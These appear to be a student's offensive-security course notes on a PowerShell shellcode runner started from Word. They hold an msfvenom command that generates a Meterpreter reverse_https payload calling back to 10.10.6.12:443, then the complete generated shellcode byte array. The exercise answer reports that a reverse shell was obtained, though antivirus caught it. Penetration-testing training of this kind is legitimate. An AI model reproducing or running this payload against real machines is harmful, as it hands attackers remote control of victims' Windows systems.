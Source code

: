 The next step is to generate the shellcode in ps1 format, remembering to choose 32-bit 
architecture due to PowerShell spawning as a 32-bit child process of Word. With the shellcode 
generated, we can copy it using the .NET Copy :

```sh
└─$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.6.12 LPORT=443 EXITFUNC=thread -f ps1 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 561 bytes
Final size of ps1 file: 2760 bytes
[Byte[]] $buf = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x89,0xe5,0x8b,0x52,0x14,0xf,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x1,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x50,0x8b,0x58,0x20,0x8b,0x48,0x18,0x1,0xd3,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x6e,0x65,0x74,0x0,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0xe8,0x78,0x0,0x0,0x0,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x4d,0x61,0x63,0x69,0x6e,0x74,0x6f,0x73,0x68,0x3b,0x20,0x49,0x6e,0x74,0x65,0x6c,0x20,0x4d,0x61,0x63,0x20,0x4f,0x53,0x20,0x58,0x20,0x31,0x32,0x5f,0x30,0x5f,0x31,0x29,0x20,0x41,0x70,0x70,0x6c,0x65,0x57,0x65,0x62,0x4b,0x69,0x74,0x2f,0x35,0x33,0x37,0x2e,0x33,0x36,0x20,0x28,0x4b,0x48,0x54,0x4d,0x4c,0x2c,0x20,0x6c,0x69,0x6b,0x65,0x20,0x47,0x65,0x63,0x6b,0x6f,0x29,0x20,0x43,0x68,0x72,0x6f,0x6d,0x65,0x2f,0x39,0x35,0x2e,0x30,0x2e,0x34,0x36,0x33,0x38,0x2e,0x36,0x39,0x20,0x53,0x61,0x66,0x61,0x72,0x69,0x2f,0x35,0x33,0x37,0x2e,0x33,0x36,0x0,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x3,0x53,0x53,0x68,0xbb,0x1,0x0,0x0,0xe8,0xbe,0x0,0x0,0x0,0x2f,0x53,0x63,0x4c,0x71,0x4a,0x5a,0x37,0x6c,0x75,0x71,0x69,0x6d,0x76,0x36,0x65,0x2d,0x78,0x41,0x4b,0x66,0x63,0x51,0x35,0x65,0x41,0x49,0x51,0x30,0x50,0x63,0x69,0x52,0x48,0x52,0x36,0x6a,0x73,0x44,0x58,0x34,0x49,0x78,0x54,0x75,0x70,0x0,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x68,0x80,0x33,0x0,0x0,0x89,0xe0,0x6a,0x4,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x47,0x0,0x0,0x0,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x30,0x2e,0x31,0x30,0x2e,0x36,0x2e,0x31,0x32,0x0,0xbb,0xe0,0x1d,0x2a,0xa,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
```

got  areverse shell however caught by antivirus.

### 3.6.4.1 Exercises
1. Generate a Meterpreter shellcode and obtain an in-memory PowerShell shellcode runner 
resulting in a reverse shell.

    done above

2. The code developed in this section was based on a 32-bit PowerShell process. Identify and 
modify needed elements to make this work from a 64-bit PowerShell process.
